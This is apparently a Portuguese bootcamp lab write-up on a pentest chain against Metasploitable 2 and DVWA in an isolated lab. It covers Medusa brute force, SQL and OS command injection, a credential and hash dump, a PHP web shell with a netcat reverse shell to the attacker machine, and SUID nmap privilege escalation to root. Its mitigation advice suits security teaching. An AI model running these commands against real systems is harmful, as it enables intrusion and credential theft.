








# 🔐 Desafio DIO — Ataque de Força Bruta com Medusa e Kali Linux

## 📋 Sobre o Projeto

Projeto prático desenvolvido como parte do bootcamp de Cibersegurança da [DIO](https://www.dio.me/). O objetivo principal consistiu em simular cenários reais de auditoria e ataque de força bruta utilizando o **Kali Linux** e a ferramenta **Medusa**, direcionados ao ambiente vulnerável **Metasploitable 2** e **DVWA** (Damn Vulnerable Web Application) em rede interna controlada.

Indo além do escopo inicial, este laboratório documenta uma cadeia de pentest completa: desde a descoberta de credenciais via Medusa até a exploração de **SQL Injection**, **OS Command Injection**, extração de arquivos do sistema (`/etc/passwd`), descoberta de credenciais de banco em texto claro (`config.inc.php`) e **dump completo de credenciais e hashes do MySQL**.

> ⚠️ **Aviso Ético e Legal:** Todos os testes descritos neste repositório foram realizados exclusivamente em ambiente de laboratório isolado (rede VirtualBox Host-Only). O uso dessas ferramentas e técnicas em sistemas sem autorização formal é estritamente ilegal.

---

## 📑 Sumário

- [Configuração do Ambiente](#-configuração-do-ambiente)
- [Cenário 1: Força Bruta em FTP com Medusa](#-cenário-1-força-bruta-em-ftp-com-medusa)
- [Cenário 2: Força Bruta no Formulário HTTP (DVWA)](#-cenário-2-força-bruta-no-formulário-http-dvwa)
- [Cenário 3: Password Spraying em SMB](#-cenário-3-password-spraying-em-smb)
- [Cenário 4: SQL Injection no DVWA](#-cenário-4-sql-injection-no-dvwa)
- [Cenário 5: OS Command Injection](#-cenário-5-os-command-injection)
- [Cenário 6: Acesso ao Banco de Dados e Extração de Hashes](#-cenário-6-acesso-ao-banco-de-dados-e-extração-de-hashes)
- [Cenários Complementares (LFI, Upload, CSRF, XSS)](#-cenários-complementares)
- [Cadeia Completa do Ataque](#-cadeia-completa-do-ataque)
- [Medidas de Mitigação e Defesa](#️-medidas-de-mitigação-e-defesa)
- [Ferramentas Utilizadas](#-ferramentas-utilizadas)
- [Referências](#-referências)

---

## 🛠️ Configuração do Ambiente

### Máquinas Virtuais (VirtualBox)

| Máquina | Sistema Operacional | Endereço IP | Papel |
|---|---|---|---|
| **Atacante** | Kali Linux | 192.168.56.x | Execução de ferramentas e testes |
| **Alvo** | Metasploitable 2 | 192.168.56.101 | Servidor intencionalmente vulnerável (DVWA) |

Ambas as máquinas foram conectadas via adaptador **Host-Only**, garantindo isolamento total da internet e integridade do laboratório.

### Varredura e Enumeração com Nmap

Antes de disparar ataques de dicionário, foi realizada a descoberta de portas e versões de serviço no alvo:

```bash
nmap -sV -Pn 192.168.56.101
```


Principais portas identificadas para os cenários:
- **Porta 21/TCP:** vsftpd 2.3.4 (FTP)
- **Porta 80/TCP:** Apache 2.2.8 + PHP (Web / DVWA)
- **Porta 139 / 445/TCP:** Samba 3.X (SMB)
- **Porta 3306/TCP:** MySQL 5.0.51a

---

## 🎯 Cenário 1: Força Bruta em FTP com Medusa

O serviço FTP é frequentemente visado quando administradores mantêm contas padrão ou senhas fracas. 

Wordlists preparadas na pasta [`wordlists/`](wordlists/):
- **Usuários:** [`wordlists/users.txt`](wordlists/users.txt)
- **Senhas:** [`wordlists/passwords.txt`](wordlists/passwords.txt)

### Comando Executado

```bash
medusa -h 192.168.56.101 -U wordlists/users.txt -P wordlists/passwords.txt -M ftp -t 4
```


### Resultado
- Credencial localizada com sucesso: `msfadmin` : `msfadmin`
- Validação realizada via cliente `ftp 192.168.56.101` com autenticação confirmada.

---

## 🎯 Cenário 2: Força Bruta no Formulário HTTP (DVWA)

No segundo cenário, o alvo foi a autenticação web do DVWA no caminho `/dvwa/login.php`.

### Comando Executado

```bash
medusa -h 192.168.56.101 -U wordlists/users.txt -P wordlists/passwords.txt -M http -m DIR:/dvwa/login.php -t 4
```



### Credenciais Encontradas
- **Usuário:** `admin`
- **Senha:** `password`

### Inspeção Client-Side da Aplicação
Ao inspecionar o código da página de login, foram notadas práticas inseguras no script da aplicação:
- Chamada da função `eval()` no manipulador de popup (vetor comum de XSS).
- Validações de formulário puramente no lado cliente (`validate_required`), sem garantias seguras no backend.

---

## 🎯 Cenário 3: Password Spraying em SMB

O **Password Spraying** diferencia-se do brute-force tradicional porque testa uma única senha comum contra vários nomes de usuários, evitando bloqueios de conta causados por excesso de tentativas em um mesmo usuário.

### Comando Executado

```bash
medusa -h 192.168.56.101 -U wordlists/users.txt -p password -M smbnt -t 4
```



---

## 🎯 Cenário 4: SQL Injection no DVWA

Com o acesso administrativo ao DVWA estabelecido, iniciou-se a exploração de vulnerabilidades web na aplicação.

No módulo **SQL Injection**, o campo de busca por ID não tratava caracteres de controle SQL.

### Teste de Bypass de Consulta

```sql
1' OR '1'='1
```



A query retornou os registros cadastrados na base, provando a injeção e abrindo caminho para leitura de metadados do esquema via cláusulas `UNION SELECT`.

---

## 🎯 Cenário 5: OS Command Injection

No módulo **Command Execution**, a função de ping realizava chamadas direta ao shell do sistema operacional sem sanitização prévia.

### Encadeamento de Comandos

Aproveitando o separador pipe (`|`), foi possível concatenar comandos arbitrários:

```bash
# 1. Identificar o usuário executor
192.168.56.101 | whoami
```


Retorno: **`www-data`** (usuário do Apache).

```bash
# 2. Leitura de contas locais do sistema
192.168.56.101 | cat /etc/passwd
```



```bash
# 3. Leitura do arquivo de configuração da aplicação
192.168.56.101 | cat /var/www/dvwa/config/config.inc.php
```

Conteúdo extraído do arquivo de configuração:
```php
$_DVWA[ 'db_server' ]   = 'localhost';
$_DVWA[ 'db_database' ] = 'dvwa';
$_DVWA[ 'db_user' ]     = 'root';
$_DVWA[ 'db_password' ] = ''; // Senha em branco!
```

---

## 🎯 Cenário 6: Acesso ao Banco de Dados e Extração de Hashes

De posse da credencial de banco `root` com senha vazia, obteve-se acesso direto ao serviço MySQL.

### 1. Enumeração dos Bancos de Dados
```sql
SHOW DATABASES;
```



Identificados 7 bancos no servidor: `dvwa`, `metasploit`, `owasp10`, `tikiwiki`, `tikiwiki105`, `mysql` e `information_schema`.

### 2. Dump de Usuários e Hashes de Senha
```sql
USE dvwa;
SELECT user, password FROM dvwa.users;
```



Registros obtidos da base:

| Usuário | Hash MD5 | Senha em Texto Claro |
|---|---|---|
| `admin` | `5f4dcc3b5aa765d61d8327deb882cf99` | `password` |
| `gordonb` | `e99a18c428cb38d5f260853678922e03` | `abc123` |
| `1337` | `8d3533d75ae2c3966d7e0d4fcc69216b` | `charley` |
| `pablo` | `0d107d09f5bbe40cade3de5c71e9e9b7` | `letmein` |
| `smithy` | `5f4dcc3b5aa765d61d8327deb882cf99` | `password` |

### 3. Extração para Cracking Offline
Os hashes foram salvos em arquivo dedicado (`hashes.txt`) para processamento via John the Ripper ou Hashcat:


### 4. Análise de Contas com Senhas Nulas
Também foi verificada a existência de usuários do sistema de banco de dados com permissões elevadas e sem senha definida (`root` e `guest`):



---

## 🔬 Cenários Complementares

Além dos cenários com evidências diretas em tela, a documentação e scripts de prova de conceito foram adicionados ao repositório:

- **Local File Inclusion (LFI):** Navegação por diretórios com `../../../../etc/passwd`.
## 🎯 Cenário 7: File Upload & Reverse Shell Interativo

Além de testes básicos de upload, foi estabelecido um **Reverse Shell interativo** completo conectando o servidor alvo de volta para a máquina do atacante (Kali Linux).

### Como o Ataque Foi Executado

1. **Upload do script PHP:**
   Foi enviado para a aplicação o arquivo `hack.php` permitindo comandos via parâmetro `cmd`.

2. **Preparação do Listener no Kali Linux:**
   No terminal do Kali, foi colocado o Netcat para escutar conexões de entrada na porta 4444:
   ```bash
   nc -lvnp 4444
   ```

3. **Disparo do Reverse Shell:**
   Pelo navegador, foi chamado o payload invocando o Netcat com shell reverso diretamente para o IP do Kali (`192.168.56.102`):
   ```
   http://192.168.56.101/dvwa/hack.php?cmd=nc -e /bin/sh 192.168.56.102 4444
   ```

4. **Sessão Interativa Estabelecida:**
   O alvo conectou de volta instantaneamente, entregando um terminal interativo como `www-data`:
   ```bash
   listening on [any] 4444 ...
   connect to [192.168.56.102] from (UNKNOWN) [192.168.56.101] 39288
   whoami
   www-data
   id
   uid=33(www-data) gid=33(www-data) groups=33(www-data)
   pwd
   /var/www/dvwa
   ls -la
   ```


> 🚀 **Impacto Crítico:** O atacante agora possui um shell remoto contínuo dentro do servidor web, permitindo navegação pelo sistema de arquivos, inspeção de logs e tentativas de escalação de privilégios para `root`.

---

## 👑 Cenário Extraordinário: Escalação Local de Privilégios (Privilege Escalation to ROOT)

Após obter a sessão reversa como usuário limitado `www-data`, foi conduzido o processo completo de **Privilege Escalation** até o controle absoluto do sistema operacional como **`root`**.

### 1. Enumeração de Binários com Bit SUID
Para identificar executáveis que rodam com privilégios de superusuário, foi utilizado o comando:
```bash
find / -perm -4000 -type f 2>/dev/null
```


Entre os binários retornados, destacou-se:
```
/usr/bin/nmap
```

### 2. Exploração da Falha do SUID no Nmap (GTFOBins)
Versões antigas do Nmap (como a v4.53 instalada no Metasploitable 2) possuem um modo interativo (`--interactive`). Quando configurado com a permissão SUID ativa, é possível invocar um subshell mantendo os privilégios do proprietário do binário (`root`):

```bash
# Executar o Nmap em modo interativo
nmap --interactive

# Dentro do console interativo do Nmap, escapar para o shell do sistema
nmap> !sh

# Confirmação da escalação
whoami
root
```


### 3. Impacto Total: Dump do `/etc/shadow`
Com acesso como `root`, foi realizada a leitura do arquivo mais protegido do Linux (`/etc/shadow`), contendo os hashes criptográficos reais de todas as senhas dos usuários do sistema:

```bash
cat /etc/shadow
```



**Comprometimento total do servidor:** o ciclo de invasão atingiu o nível mais alto possível de acesso e controle administrativo.

---

## 🎯 Cenário 8: CSRF (Cross-Site Request Forgery)
- **Cross-Site Request Forgery (CSRF):** Prova de conceito de página para alteração não autorizada de senha ([`scripts/csrf_attack.html`](scripts/csrf_attack.html)).
- **XSS Reflected e Stored:** Injeção de scripts no parâmetro de busca e no mural de recados (Guestbook).

---

## 🔗 Cadeia Completa do Ataque

```
[ Nmap Scan ] ──▶ Portas 21, 80, 445 e 3306 expostas
      │
      ├──▶ [ Medusa FTP ] ──▶ msfadmin:msfadmin
      │
      └──▶ [ Medusa HTTP ] ──▶ admin:password (DVWA)
                 │
                 ├──▶ [ SQL Injection ] ──▶ Extração de dados da aplicação
                 │
                 ├──▶ [ Command Injection ] (www-data) ──▶ Leitura config.inc.php ──▶ MySQL root sem senha ──▶ Dump DB
                 │
                 └──▶ [ File Upload + Reverse Shell ] ──▶ Shell interativo Netcat (www-data)
                            │
                            ▼
              [ Enumeração SUID (find) ] ──▶ /usr/bin/nmap identificado
                            │
                            ▼
              [ GTFOBins Nmap Interactive ] ──▶ nmap --interactive ──▶ !sh
                            │
                            ▼
                   👑 ROOT DO SISTEMA 👑
                            │
                            ▼
              [ Dump Completo /etc/shadow ]
```

---

## 🛡️ Medidas de Mitigação e Defesa

| Vetor de Risco | Vulnerabilidade Observada | Recomendação Técnica |
|---|---|---|
| **Autenticação** | Força bruta e credenciais previsíveis | Implementar rate limiting, bloqueio temporário após falhas e MFA |
| **Banco de Dados** | Conta `root` sem senha e privilégios excessivos | Definir senhas complexas, desativar acessos desnecessários e aplicar menor privilégio |
| **Aplicações Web** | SQL Injection | Utilizar Prepared Statements / consultas parametrizadas (PDO, ORM) |
| **Execução de Comandos** | Injeção via shell | Evitar chamadas ao sistema (`exec`, `system`); usar validação estrita por whitelist |
| **Arquivos e Configurações** | Arquivos legíveis por qualquer usuário | Ajustar permissões (`chmod 600` ou `640`) e separar segredos de código |

---

## 🧰 Ferramentas Utilizadas

- **Kali Linux:** Sistema operacional especializado em testes de segurança.
- **Medusa:** Ferramenta modular e paralela para auditoria de força bruta.
- **Nmap:** Scanner de portas e detecção de versões de serviços.
- **Metasploitable 2:** Máquina virtual deliberadamente vulnerável para fins de estudo.
- **DVWA:** Aplicação web para prática de vulnerabilidades OWASP.
- **MySQL Client:** Interface CLI para gerenciamento e auditoria de bases relacionais.

---

## 📚 Referências

- [Manual Oficial do Nmap](https://nmap.org/book/)
- [Documentação Oficial do Medusa](http://www.foofus.net/jmk/medusa/medusa.html)
- [OWASP Top 10 Web Application Security Risks](https://owasp.org/www-project-top-ten/)
- [Guia Oficial de Segurança do Kali Linux](https://www.kali.org/docs/)
- [Projeto DVWA no GitHub](https://github.com/digininja/DVWA)

---

## 👤 Autor

Projeto documentado e estruturado para o Desafio de Projeto da **DIO (Digital Innovation One)**.
